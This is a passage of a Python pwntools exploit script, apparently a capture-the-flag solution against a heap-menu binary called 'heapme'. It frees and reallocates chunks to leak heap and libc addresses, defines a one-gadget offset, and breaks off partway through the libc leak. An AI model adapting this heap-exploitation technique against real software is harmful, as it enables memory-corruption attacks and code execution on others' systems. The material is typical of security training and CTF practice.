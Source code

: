 ```python
    io.recvuntil('Command: ')
    io.sendline('1')
    io.recvuntil('Index: ')
    io.sendline(index)


def paddTo64(e):
    dif = 8 - len(e)
    for i in range(dif):
        e = e + '\x00' 
    return (e)



offsetFromOneGadget = 0x2d3a31
#offsetFromOneGadget = 0x2d5f6e


io = remote.fromsocket(ssock)
#io = process("strace -o /tmp/strace ./heapme".split(" ") )
#io = process("./heapme")


print ("[@] Getting heapLeak...")


#sleep(19)


createDisk(8, 38)
createDisk(8, 39)
deleteDisk(38)
deleteDisk(39)
createDisk(8, 40)
heapLeak = readDisk(40)


heapLeak = heapLeak[:-1]
heapLeak = paddTo64(heapLeak)


heapLeak = struct.unpack('<Q', heapLeak)[0]
print("[*] heapLeak = " + hex(heapLeak))
print("[@] Getting libcLeak...")


deleteDisk(40)
createDisk(0x100, 38)
createDisk(0x208, 39)
createDisk(0x100, 40)
deleteDisk(39)



createDisk(0x100, 39)
createDisk(0x80, 41)
deleteDisk(39)
deleteDisk(40)


libcLeak = readDisk(41)
libcLeak = libcLeak[:-1]
libcLeak = paddTo64(libcLeak)
```